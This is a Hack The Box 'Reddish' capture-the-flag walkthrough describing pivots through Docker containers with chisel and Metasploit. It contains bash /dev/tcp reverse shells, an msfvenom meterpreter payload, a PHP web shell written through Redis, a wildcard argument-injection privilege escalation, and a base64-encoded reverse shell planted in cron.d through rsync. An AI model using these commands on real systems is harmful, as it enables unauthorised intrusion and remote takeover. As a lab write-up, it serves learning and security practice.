

# HTB - Reddish

## Summary

This is a very challenging box, with most of the difficulty coming from the number of pivots required. There are four docker containers we have to exploit, residing on three different networks. We use chisel to do multiple pivots between the boxes on the network. Here is a a diagram of the network to assist in understanding the writeup:  

### Network Diagram
  

<br />

## Foothold

nmap initially reports that the host is down, have to re run with `-Pn` option to skip ping verification  

None of the first 1000 ports are open; have to run with `-p-` to find `1880` open  

`nmap -Pn -sV -sT -oA nmap_results_initial -p 1880 10.10.10.94`  
shows there is a Node js running on `1880`  

Going to `http://10.10.10.94:1880` shows just an error page, but there is a favicon  

Get the favicon with:  
`10.10.10.94:1880/favicon.ico`  
Google image search it shows this a node-red icon  

If we have Burp change the GET request to a POST request, we can eventually get access to a GUI. On the GUI, we can graphically create a TCP reverse shell by dragging in some processors and connecting them up  

The shell we get is a dash shell, we can upgrade to a bash shell with:  
`nc -lvnp 8001` on attack box  
`bash -c 'bash -i >& /dev/tcp/10.10.14.3/8001 0>&1'`  

<br />

## Network Recon

### Moving stuff without curl or wget

We don't have `curl` or `wget` on the target box, but we can move stuff over with raw TCP!  

I generated a meterpreter rev shell on my attack box with:  
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=8002 -f elf -o linux_rev_met`  

Then, to move it over:  
`nc -lvnp 8000 < linux_rev_met` on the attack box  
`cat < /dev/tcp/10.10.14.3/8000 > linux_rev_met` on the victim box  
You have to kill the nc connection from the attack box to get the shell on the victim box back  

### Ping Sweep

`ifconfig` in our meterpreter shell shows we are homed as both `172.18.0.2` and `172.19.0.4`  

`use post/multi/gather/ping_sweep`  
`set RHOSTS 172.18.0.0/23`  
`set session 1`  
To perform a ping sweep  

Then repeat for the `19` network

We find: `172.19.0.2` and `172.19.0.3`  

### Port Scanning

Two ways of port scanning:  
For both, we need to setup auto route first:  
`use post/multi/manage/autoroute`  
`set session 1`  
`run`  
Now, running `route` in msf should show `172.18.0.0/24` and `172.19.0.0/24` being routed to 'Gateway' session 1  
1. Use Metasploit tcp scan
    - `use auxiliary/scanner/portscan/tcp`
    - `set RHOSTS 172.19.0.2`  
    - `run`  
    - (The reason we don't have to specify a sesssion or anything is because msf already knows to route all 172.19.0 traffic to session 1)
2. Use nmap through an msf SOCKS proxy
    - `use auxiliary/server/socks_proxy`  
    - `set version 4a`
    - `set SRVPORT 9050`  
    - `set SRVHOST 127.0.0.1`  
    - `run`
    - ensure `socks4 127.0.0.1 9050` is in `/etc/proxychains.conf`  
    - `proxychains nmap -p1-10000 172.19.0.2`  

Both methods will find that `6379` is open  
With `nmap` we can then run a more detailed scan with:  
`proxychains nmap -sT -sV -p 6379 172.19.0.2`  
and find that this is Redis key-value store 4.0.9  

Redis is an open-source, in-memory data store used as a database, cache, streaming engine, and message broker  

The msf port scanner ran a lot faster than nmap by the way; maybe the strategy is to first run that one, and then run nmap as a more detailed follow-up  

Using the same method, we also find port `80` is open on `172.19.0.3` with http Apache (Debian)  

In theory you could use a meterpreter port forward to connect to both Redis on `.2` and HTTP on `.3`, I was succesfully at this for a short time, but then it just failed and I couldn't get it to work again. Using **Chisel** gave me much more reliable results

**Tip**: Once you have a meterpreter session, you can do `upload <src> <dst>` from the Meterpreter command prompt to send files to the target  

**Tip:** You can background a shell in meterpreter (like one created with `shell`) with `ctrl + z` and then foreground it with `channel -l` and then `channel -i`  

<br />

## Pivot 1

### Adding redirects with Chisel

Start Chisel server on the attack box with:  
`./chisel server --reverse -v -p 8688`  

Start a Chisel client on the pivot box, instructing it to forward our requests to `127.0.0.1:6379` to `172.19.0.2:6379` and to forward our requests to `127.0.0.1:8082` to `172.19.0.3:80`  
```bash
./chisel client 10.10.14.3:8688 R:127.0.0.1:6379:172.19.0.2:6379 R:127.0.0.1:8082:172.19.0.3:80`
```
Now we can get to the HTTP server by going to `localhost:8082` in a browser and we can connect to the Redis server at `127.0.0.1:6379`  

### What to do in Redis

If you search 'redis remote command execution' on the internet, you can find a guide on how to connect to a redis server with telnet or nc  

I don't really care about this part (its very specific), just going to copy what I did:  

In redis:  
- `flushall`
- `set AVariable "<? system($_REQUEST['aaa']); ?>"`
- `config set dbfilename aaabbb.php`  
- `config set dir /var/www/html/`  
- `save`  

(We are writing a configuration file called "aaa.php" to /var/www/html)  

File there get put on the HTTP server on `172.19.0.2`. So we are basically writing a file there  

There is cron that will delete this file every 3 minutes  

### Shell from Redis Box

Using `http://localhost:8082/aaabbb.php?aaa=` we have code execution on the '172.19.0.2` box  

However, we need the `172.19.0.2` to be able to connect back to us with a reverse shell  
Start another chisel client to forward requests from 9001 to 8017 on our attack box (not specifying `R:` changes the direction):  
- `./chisel client 10.10.14.3:8688 9001:127.0.0.1:8017`  

Then, with a nc listener on `8017` we will receive the connect back when we execute a bash reverse shell on `172.19.0.2`  

<br />

## Privilege Escalation 1

We can move LinEnum.sh over to `172.19.0.2` with another chisel forward:  
- `./chisel client 10.10.14.3:8688 9002:127.0.0.1:8016` On the pivot host
- `nc -lvnp 8016 < LinEnum.sh` on the attack box  
- `cat < /dev/tcp/172.19.0.4/9002 > LinEnum.sh` in the shell on the target box  

Running LinEnum, we see that there is a cron which runs a job  
Not going to go into detail at all here about why this works;  
- Move `RDBScript.rdb` to the target  
- `touch -- 'f187a0ec71ce99642e4f0afbd441a68b/-e "sh RDBScript.rdb"'` in `/var/www/html`  
- If that doesn't work, do it without the `"`  
- Wait for the cron to run, `/tmp/privesc` should get generated, run it, you have a root shell  

This is still only a root shell on a Docker container, running `ip a` shows us we are homed on both the `172.19` network, and on a `172.20` network as `172.20.0.2`  
`ip neigh` shows that there is another box on the 20 network at `172.20.0.3` 

<br />

## Pivot 2

We can upload files to the `172.20.0.3` host using the same rsync cron that we privesc'd with  

But first we need to set up our tunnels to have that host be able to connect all the way back to our attack box  

First, move chisel to the `172.20.0.2` host  
Now we will use a chisel client on `172.19.0.4` to redirect a chisel client -> server connection from `172.20.0.2` to the chisel server running on our attack box:  
`./chisel client 10.10.14.3:8688 9081:10.10.14.3:8688`  

Now, using chisel on the `172.20.0.3` host, forward connections to port `9082` all the way back to our attack box:  
`./chisel client 172.19.0.4:9081 9082:127.0.0.1:9082 &`  

Start a nc listner on the attack box on `9082`  

rsync does not like some of the characters in the bash rev shell line, so we base64 encode it and then decode it:  
- `echo "bash -c 'bash -i >& /dev/tcp/172.20.0.2/9082 0>&1'" | base64`  
- Copy the result (YmFza...)
- `echo "* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4yLzkwODIgMD4mMScK | base64 -d | bash" > clean`  
- `rsync -avp clean rsync://backup:873/src/etc/cron.d/clean`  

Now, when the cron runs clean on the `172.120.0.3` container, we will get a shell back on our attack box  

<br />

## Mounting sda device

We are still in a docker container as root  
This one is single homed as `172.20.0.3` though, so there is no more pivoting  
`ls /dev | grep sda` shows that we have 3 sda devices available  
We can mount them with:  
- `cd /tmp`
- `mkdir sda1`  
- `mount /dev/sda1 sda1`  

Repeating this for each of the sda's, we find that sda2 contains a filesystem, which is where the root flag is located
